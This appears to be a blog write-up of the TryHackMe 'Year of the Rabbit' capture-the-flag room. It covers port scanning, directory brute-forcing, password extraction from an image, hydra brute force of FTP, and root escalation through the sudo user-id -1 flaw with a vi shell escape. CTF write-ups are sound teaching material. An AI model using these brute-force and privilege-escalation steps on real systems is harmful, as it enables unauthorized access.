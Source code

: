 ```yaml
---
layout: post
permalink: /posts/thm/year-of-the-rabbit
title: "Year of the Rabbit"
---
```


Let's start our enumeration with nmap.

```
nmap -sC -sV <TARGET-IP>
```

![nmap](/assets/images/thm/year-of-the-rabbit/nmap.png)

We can see that there are open ports 21 ftp, 22 ssh and 80 http. Let's try to find any hidden directories with gobuster.

```
gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

While we are waiting for gobuster result, we can visit the web server.

![website](/assets/images/thm/year-of-the-rabbit/website.png)

It's just the Apache default page. Gobuster has finished the scan and here is the result.

![gobuster](/assets/images/thm/year-of-the-rabbit/gobuster.png)

Let's visit the `assets` directory.

![assets](/assets/images/thm/year-of-the-rabbit/assets.png)

Looking through the css file we have found another hidden directory.

![css](/assets/images/thm/year-of-the-rabbit/css.png)

Once we visit this page a pop up appears that told us to turn off the java script and it redirects us to an youtube video. We can download th source code with the following command:

```
wget http://<TARGET-IP>/sup3r_s3cr3t_fl4g.php
```

I fired up the Burp Suite and I visited /sup3r_s3cr3t_fl4g.php again. Capturing the request with burp we have found something interesting.

![burp-hidden](/assets/images/thm/year-of-the-rabbit/burp-hidden.png) 

Let's visit this hidden directory.

![hidden-directory](/assets/images/thm/year-of-the-rabbit/hidden-directory.png)

The directory contains an image.

![image](/assets/images/thm/year-of-the-rabbit/image.png)

Download the image, probably there is something hidden in it.

```
strings Hot_Babe.png
```

The command above shows us some hidden information.

![strings](/assets/images/thm/year-of-the-rabbit/strings.png)

Now we know the username for FTP. Copy all the found passwords and create a new file. Once this is done we can use hydra to brute force the FTP.

```
hydra -l ftpuser -P passwords ftp://<TARGET-IP>
```

![hydra](/assets/images/thm/year-of-the-rabbit/hydra.png)

Now we have the credentials for FTP. Let's login.

```
ftp <TARGET-IP>
```

![ftp](/assets/images/thm/year-of-the-rabbit/ftp.png)

We can download files from FTP with `get` command

```
get <FILE-NAME>
```

Open the file.

![brain-fuck](/assets/images/thm/year-of-the-rabbit/brain-fuck.png)

Wow... it's something bizarre, right? It's a `Brainfuck` an esoteric programming language created in 1993 by Urban Müller. We can use this `https://www.dcode.fr/brainfuck-language` site to decode it.

![decode](/assets/images/thm/year-of-the-rabbit/decode.png)

Now we have SSH credentials, let's login.

![ssh](/assets/images/thm/year-of-the-rabbit/ssh.png)

Hmm... we are greeted with a clue. We are not able to do almost anything with the current user, let's find this hidden message.

```
locate s3cr3t
```

Once we know where is the secret we can read it.

![secret](/assets/images/thm/year-of-the-rabbit/secret.png)

Switch to the gwendoline account.

```
su gwendoline
```

Now we are able to view the first flag. To find the root's flag we need to escalate our privileges. Let's check whether gwendoline is able to run any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/year-of-the-rabbit/sudo-l.png)

We are able to run `/usr/bin/vi /home/gwendoline/user.txt` as all users except root. After some research I have found the following exploit `https://www.exploit-db.com/exploits/47502`. Basically, this flaw allows us to run a command as root by specifying the target user using the numeric id of -1.

```
 sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Based on `https://gtfobins.github.io/gtfobins/vi/` once it opens the vi editor execute the following command.

```
:!/bin/sh
```

![bin-sh](/assets/images/thm/year-of-the-rabbit/bin-sh.png)

It'll open a root shell.

![root](/assets/images/thm/year-of-the-rabbit/root.png)

Now we are able to read the root's flag.
